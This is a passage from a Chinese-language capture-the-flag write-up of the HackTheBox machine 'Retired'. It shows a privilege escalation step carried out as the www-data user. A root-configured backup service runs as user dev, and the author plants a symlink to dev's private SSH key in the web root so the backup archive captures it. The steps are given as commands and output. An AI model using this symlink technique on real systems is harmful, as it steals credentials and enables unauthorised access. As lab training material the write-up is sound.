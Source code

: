 # 网站备份

我们找到一个名为 webbackup 的文件，让我们来看看:

```
www-data@retired:/var/www$ cat /usr/bin/webbackup 
#!/bin/bash
set -euf -o pipefail
cd /var/www/
SRC=/var/www/html
DST="/var/www/$(date +%Y-%m-%d_%H-%M-%S)-html.zip"
/usr/bin/rm --force -- "$DST"
/usr/bin/zip --recurse-paths "$DST" "$SRC"
KEEP=10
/usr/bin/find /var/www/ -maxdepth 1 -name '*.zip' -print0 \
    | sort --zero-terminated --numeric-sort --reverse \
    | while IFS= read -r -d '' backup; do
        if [ "$KEEP" -le 0 ]; then
            /usr/bin/rm --force -- "$backup"
        fi
        KEEP="$((KEEP-1))"
    done
```

这是一个简单的脚本，它将/var/www/html 的内容备份到/var/www 中的一个文件中。让我们看看是什么触发了这个脚本:

```
www-data@retired:/var/www$ grep -r /etc -e 'webbackup' 2>/dev/null
/etc/systemd/system/website_backup.service:ExecStart=/usr/bin/webbackup
```

我们可以看到 systemd 中有一个正在执行 webbackup 脚本的服务。让我们看看服务:

```
www-data@retired:/var/www$ cat /etc/systemd/system/website_backup.service
[Unit]
Description=Backup and rotate website
[Service]
User=dev
Group=www-data
ExecStart=/usr/bin/webbackup
[Install]
WantedBy=multi-user.target
```

该服务由用户 dev 运行，让我们看看/home:

```
www-data@retired:/var/www/html$ ls -l /home
drwx------ 6 dev dev 4096 Mar 11 14:36 dev
```

我们看到 dev 是唯一的用户，但我们无法深入了解。回想一开始，我们看到端口 22 在 nmap 扫描中打开。假设 dev 用户将有访问权是安全的，这可能意味着在他们的。ssh 文件夹。我们有权限在备份到 dev 主文件夹中的文件的文件夹中创建符号链接，因为脚本是在它们的上下文中运行的。所以就像我们在[封印](https://pencer.io/ctf/ctf-htb-seal/)里做的那样:

```
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa /var/www/html/id_rsa

ww-data@retired:/var/www/html$ ls -l
-rw-rwSrw- 1 www-data www-data   585 Oct 13  2021 activate_license.php
drwxrwsrwx 3 www-data www-data  4096 Mar 11 14:36 assets
-rw-rwSrw- 1 www-data www-data  4144 Mar 11 11:34 beta.html
drwxrwsrwx 2 www-data www-data  4096 Mar 11 14:36 css
-rw-rwSrw- 1 www-data www-data 11414 Oct 13  2021 default.html
lrwxrwxrwx 1 www-data www-data    21 Jun 25 11:46 id_rsa -> /home/dev/.ssh/id_rsa
-rw-rwSrw- 1 www-data www-data   348 Mar 11 11:29 index.php
drwxrwsrwx 2 www-data www-data  4096 Mar 11 14:36 js
```
